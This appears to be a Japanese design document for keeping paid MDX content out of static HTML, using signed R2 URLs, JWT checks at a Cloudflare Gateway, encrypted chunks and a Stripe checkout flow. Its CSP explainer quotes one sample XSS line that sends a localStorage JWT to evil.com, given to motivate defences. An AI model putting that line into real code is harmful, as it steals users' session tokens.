






# MDX有料セクション分離 設計・実装案

最終更新: 2025-09

## 目的

- 有料コンテンツをSSG生成物（静的HTML）に含めず、安全に配信する。
- UI上の条件分岐のみでの保護を排し、直リンク/ソース閲覧/キャッシュ経由の漏洩を防ぐ。
- Cloudflare Workers + Gateway + R2 を前提に段階導入できる構成にする。

## 方針の全体像
- MDXから「公開部分」と「有料セクション」を明確分離。
- 有料セクションは以下のいずれかで配信。
  1) プレースホルダ方式: SSGにはプレースホルダのみを出力し、本文はAPIで取得。
  2) 暗号化チャンク方式: ビルド時に本文を暗号化し、短命署名URLで配布→クライアントで復号。
- 画像/PDF/ZIP等のバイナリは必ず署名URL経由で配布（直リンク不可）。

## MDX拡張仕様

### フロントマター例
```yaml
---
title: "XXXX"
siteId: "v0"
slug: "intro-to-yyy"
paid: true # 全体課金 or セクション課金併用
products:
  - id: product:course-yyy
    price: 980
---
```

### 有料セクション構文（MDX）
```mdx
import { PaidSection } from 'content/paid'

ここは無料の本文。

[premium productId="product:course-yyy" id="lesson-1"]

## レッスン1

…ここから有料本文…


...

[/premium]

ここも無料本文。
```

- `id` はチャンクID（プレースホルダ・暗号化のキー名と一致）
- `productId` はアクセス制御に使用

## プレースホルダ方式（SSGに本文を含めない）

### ビルド時の挙動

- MDX ASTを解析し、`[premium]〜[/premium]`ノードを検出。
- 有料本文を抽出してJSON化（HTML string or MDX AST serialize）
- 抽出本文はSSG出力に含めない。代わりに「プレースホルダ + メタデータ」を静的HTMLへ。
- 抽出本文はR2に`paid/{siteId}/{slug}/{sectionId}.json`として保存（private）。

### 配信フロー

1. クライアントが有料セクション箇所にスクロール/表示 → `GET /api/paid-content?siteId&slug&sectionId`
2. GatewayはJWT（Cookie or Authorization）を検証し、権限OKならR2の署名URLを短命発行。
3. クライアントは署名URLからJSONを取得し、その場でhydrateして描画。

### クライアント側コンポーネント例（概要）

```tsx
function PaidSectionPlaceholder({ siteId, slug, productId, id }: Props) {
  const [state, setState] = useState<'loading'|'locked'|'ready'>('loading');
  const [html, setHtml] = useState<string>('');

  useEffect(() => {
    (async () => {
      const u = new URL(`${process.env.NEXT_PUBLIC_GATEWAY_URL}/api/paid-content`);
      u.searchParams.set('siteId', siteId);
      u.searchParams.set('slug', slug);
      u.searchParams.set('sectionId', id);
      const res = await fetch(u, { credentials: 'include' });
      if (res.status === 403) return setState('locked');
      if (!res.ok) return setState('locked');
      const { url } = await res.json(); // R2署名URL
      const content = await fetch(url).then(r => r.json());
      setHtml(content.html);
      setState('ready');
    })();
  }, [siteId, slug, id]);

  if (state === 'loading') return <Skeleton />;
  if (state === 'locked') return <Paywall productId={productId} />;
  return <div dangerouslySetInnerHTML={{ __html: html }} />;
}
```

## 暗号化チャンク方式

### ビルド時の挙動

- `[premium]〜[/premium]`本文を抽出→HTML化→暗号化（例: AES-GCM）。
- 暗号文はR2に`paid-enc/{siteId}/{slug}/{sectionId}.bin`で保存（private）。
- 復号キーは配布しない。Gatewayが短命トークンで鍵交換 or 秘密分散的に渡す。

### 配信フロー

1. クライアントが`/api/paid-content-token?…`を叩き、短命トークンとR2署名URLを取得。
2. 署名URLから暗号チャンクを取得し、トークンから鍵素材を導出して復号→描画。
3. 復号キー素材は短寿命（例: 1分）＋1回限りで失効。

### セキュリティ注記

- 復号キーはJS側に渡るため、XSS対策（CSP nonce/hashes）は必須。
- Workers/Gatewayともに`Secure`/`HttpOnly`/`SameSite`を徹底。サブドメイン跨ぎ時は`None; Secure`。

## ビルドパイプライン設計

### 概要

- パッケージ構成
  - `packages/mdx-pipeline`: MDX→AST→有料セクション抽出→HTML/JSON化→R2アップロード
  - `packages/content-types`: 型宣言（frontmatter, section meta）
  - `apps/static-builder`: CLI（サイト単位ビルド、差分検出、R2 sync）

### 処理フロー

1) 変更検出
- `git diff`/`ts-morph`/ファイルタイムスタンプで変更MDXを特定
- 依存（画像/インポート）を簡易トレースして再生成対象を決定

2) 解析/抽出
- parse(frontmatter)
- MDX→AST（`@mdx-js/mdx`, `unist`）
- `[premium]〜[/premium]`ノード検出→本文抽出→HTML化
- 抽出部分をプレースホルダに差し替えたMDXを静的HTML化

3) 生成/配置
- 有料本文: JSON or 暗号チャンクをローカル生成
- リソース名: `paid/{siteId}/{slug}/{sectionId}.json` or `paid-enc/...`
- R2にアップロード（Bucket: `techdoc-paid`）
- SSG出力: `sites/{siteId}/out/{slug}/index.html`（無料部分のみ）

4) メタ/インデックス
- `paid-index.json` を生成して、対象セクション一覧を配置
- APIがR2 Keyを高速に引けるよう、`{siteId, slug} -> sectionMeta[]` をKVにも反映

5) デプロイ・パージ
- 静的HTMLをデプロイ後、Cloudflare APIでCache-Tagパージ（ページ単位/サイト単位）
- R2は署名URL運用のためパージ不要（署名失効で代替）

### CLI例

```bash
# サイト単位ビルド
BUILD_TARGET_SITES=v0 pnpm run build:ssg

# 変更検出→差分のみ再生成
pnpm tsx apps/static-builder/src/cli.ts build --site v0 --changed

# R2へ同期（有料チャンク）
pnpm tsx apps/static-builder/src/cli.ts sync-r2 --site v0
```

## Gateway API契約（案）

### GET /api/validate

- 入力: Cookie `auth-token` or `Authorization: Bearer`、`product`（任意）
- 出力: 200 OK { ok: true, permissions: string[] } / 401/403

### GET /api/paid-content

- 入力: `siteId`, `slug`, `sectionId`
- 振る舞い: JWT検証→権限確認→R2署名URLを返す
- 出力: 200 OK { url: string, ttl: number } / 403

### GET /api/paid-content-token（暗号化方式のみ）

- 入力: `siteId`, `slug`, `sectionId`
- 出力: 200 OK { url: string, token: string, alg: 'AES-GCM', exp: number }

## セキュリティ/キャッシュ方針

- HTMLは短TTL + Cache-Tagでパージ（個別ページ/サイト）
- アセットはハッシュ名で長期キャッシュ
- R2配布は常に署名URL。署名期限は短命（数分）
- JWTはWorkersでローカル検証（公開鍵/ECDSA）。期限短め、ローテーション運用
- CSP nonce/hashes必須。XSS対策徹底

## 移行ステップ

1. `[premium]〜[/premium]`コンポーネント導入（無料UIはそのまま）
2. Pipelineで抽出→プレースホルダ出力を有効化（本番はまずプレースホルダ方式）
3. Gateway `/api/paid-content` 実装 + R2バケット準備
4. 一部ページで暗号化方式を試験導入（復号UX/パフォーマンス測定）
5. CIでR2同期 + Cache-Tagパージを組み込み

## 検証項目

- ソース表示/直リンク/キャッシュから有料本文が漏れない
- JWT失効/ロール変更が即時反映（TTL・パージ動作）
- 署名URLの期限切れ/乱用耐性
- 画像/PDF等バイナリの保護（必ず署名URL）
- Lighthouse/TTFBの劣化がない（必要ならプリフェッチ）

## 代替案と選定基準

- サーバーサイドのみ（SSRで常に出し分け）: 性能面で不利、静的配信の旨味が薄い
- Cloudflare Images/Resizing上で保護: コスト上昇。R2 + 事前最適化が基本方針
- 完全暗号化のみ: 実装・UXが重い。まずはプレースホルダ、必要箇所に暗号化を併用

## プレースホルダー形式のシーケンス図




## 暗号化チャンク方式



### ビルド〜配信 全体フロー



## クロスオリジンでの閲覧権限保持の仕組み

### 課題

有料ページのサイト（例: `v0.example.com`）とCloudflare Gateway（`api.ai-pit.net`）のオリジンが異なるため、Cookieでの認証情報共有が困難。

### 採用方式: トークン運用（Authorization Bearer）

クロスオリジン環境でもCORS設定により動作可能な方式を採用。



### 技術詳細

| 項目 | 内容 |
|------|------|
| JWT保存場所 | localStorage（ブラウザ） |
| 認証ヘッダー | `Authorization: Bearer <jwt>` |
| CORS設定 | Gateway側でsites登録ドメインのみ許可（D1で管理） |
| JWT有効期限 | 短寿命（例: 1時間）、リフレッシュトークン併用 |
:::note CSPとは

**CSP（Content Security Policy）** は、Webサイトが「どこからリソースを読み込んでよいか」をブラウザに指示するセキュリティ機能です。

HTTPヘッダーでポリシーを指定します：

```http
Content-Security-Policy: script-src 'self' https://trusted.com;
```

この例では「自サイトと trusted.com からのスクリプトのみ実行可」という意味です。

**XSS対策としての役割**

localStorageにJWTを保存する場合、XSS（クロスサイトスクリプティング）攻撃でトークンが盗まれるリスクがあります。

_攻撃者が注入した悪意あるスクリプト_
```javascript
fetch('https://evil.com/steal?token=' + localStorage.getItem('jwt'));
```

CSPを設定すると、許可されていないスクリプトの実行をブラウザがブロックします：

_CSP設定_
```http
Content-Security-Policy: 
  script-src 'self';           # 自サイトのスクリプトのみ
  connect-src 'self' https://api.ai-pit.net;  # API通信先を制限
```

CSPは「保険」であり、XSS脆弱性そのものを防ぐわけではありません。localStorageにJWTを保存する方法は、CSPを設定しても**HttpOnly Cookieより安全性は劣ります**。ただしクロスオリジン環境では現実的な妥協点として広く使われています（SPAアプリなど）。より安全性を求めるなら、先ほどの方法2（サブドメイン統一でCookie共有）や方法3（BFF）を検討する価値があります。

:::
### セキュリティ対策（必須）

localStorageはXSS攻撃に脆弱なため、以下の対策を徹底：

1. **CSP（Content Security Policy）の設定**
2. **入力値のサニタイズ徹底**（XSS脆弱性の排除）
3. **JWT有効期限を短く設定**（漏洩時の被害軽減）

### 代替案（将来検討）

| 方式            | 概要                                           | メリット           | デメリット          |
| ------------- | -------------------------------------------- | -------------- | -------------- |
| 方法2: サブドメイン統一 | `v0.ai-pit.net` + `api.ai-pit.net` でCookie共有 | HttpOnlyで安全    | サイトごとにサブドメイン必要 |
| 方法3: BFF      | Next.js API Routeでプロキシ                       | JWTがブラウザに露出しない | 実装が複雑          |

MVP段階では方法1（トークン運用）で開始し、必要に応じて方法2への移行を検討する。

## Paywall → Stripe決済 → 有料コンテンツ閲覧フロー

### 前提条件
- ユーザーは未ログイン or ログイン済みだが該当商品の閲覧権限なし
- Stripe Checkout Session を使用（Stripeホスト型決済ページ）

### シーケンス図



### 補足: Webhook処理のタイミング

決済完了からWebhook到着まで数秒のラグがあるため、successUrl到着直後は権限が反映されていない可能性がある。

**対策案**:
1. **ポーリング**: successUrlページで数秒間ポーリングして権限確認
2. **楽観的表示**: successUrlでは「購入完了」を表示し、実際のコンテンツは再読み込み後に表示
3. **Session ID検証**: Checkout Session IDを使ってGateway側で直接Stripeに確認



### API エンドポイント（追加）

| エンドポイント | メソッド | 説明 |
|---------------|---------|------|
| `/api/checkout/create` | POST | Stripe Checkout Session作成 |
| `/api/stripe/webhook` | POST | Stripe Webhookハンドラー |

### Stripe Webhook イベント

| イベント | 処理内容 |
|---------|---------|
| `checkout.session.completed` | entitlements に権限追加（status: active） |
| `customer.subscription.deleted` | entitlements を revoked に更新（サブスク解約時） |
| `invoice.payment_failed` | 通知 or 一時停止処理 |